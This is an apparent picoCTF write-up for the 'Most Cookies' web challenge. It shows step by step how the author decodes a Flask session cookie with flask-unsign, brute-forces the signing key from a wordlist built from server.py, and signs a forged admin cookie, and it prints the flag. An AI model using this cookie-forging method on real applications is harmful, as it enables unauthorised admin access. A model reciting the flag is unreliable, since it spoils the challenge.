 # Most Cookies

```
AUTHOR: MADSTACKS

Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:53700/
```

# Attempt

looking at the website, http://mercury.picoctf.net:53700/ i see it asks for a cookie. Looking in the given server.py shows some hard coded cookie names:
``` python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```
before i enter some, i look at the cookies for the page (hint was in the name). After abusing google, I found a way to decode cookies. I learnt they're encrypted by a keyword
using flask-usign, i attempt this:
`pip3 install flask-unsign`
```bash
flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YJF19g.HYf5X3SfpScwGTTQ6W0xMiy5pzE'`
# outputs
{'very_auth': 'blank'}

```
we'll come back to this later. I try entering a hardcoded cookie name into the website... and great! redirect to a /display site. Lets check the cookies:
`eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YJLKOg.bQ0mQBF1ShU_rhp_zf4BDXDEvvo`
This is different from the original cookie! lets decode it
```bash
flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YJLKOg.bQ0mQBF1ShU_rhp_zf4BDXDEvvo'
# outputs
{'very_auth': 'snickerdoodle'}
```
interesting! now lets go for that secret key. reading the flask-unsign website, https://book.hacktricks.xyz/pentesting/pentesting-web/flask you can find a section on brute forcing the key. lets try that
```bash
pip install flask-unsign[wordlist]
flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YJLKOg.bQ0mQBF1ShU_rhp_zf4BDXDEvvo'
# outputs 
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2176): -----BEGIN PRIVATE KEY-----TEN
[!] Failed to find secret key after 41668 attempts.xx
```
ah shit. failed :(. Lets try our own wordlist, what can we work with. Hows about the cookie_names array from the python code! 
```bash
flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YJLKOg.bQ0mQBF1ShU_rhp_zf4BDXDEvvo' --wordlist wordlist.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```
success!
secret key: 'peanut butter'

now lets make our own cookie with value {'very_auth': 'admin'}

```bash
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
# output
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YJLL5w.-TvJoF9eDG66wBNbg59tM5Yxf_Q
```

entering this into the page gives the flag!

# Flag:

Flag: picoCTF{pwn_4ll_th3_cook1E5_3646b931}

# Notes

massive thanks to https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Web%20Exploitation/Most%20Cookies/MostCookies.md otherwise i would've struggled a lot more with this one







{'very_auth': 'admin'}

eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YJF3yw.cmT6WDZYILW85Bw82Ato1H69BuM

flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9Cg==.YJF19g.HYf5X3SfpScwGTTQ6W0xMiy5pzE'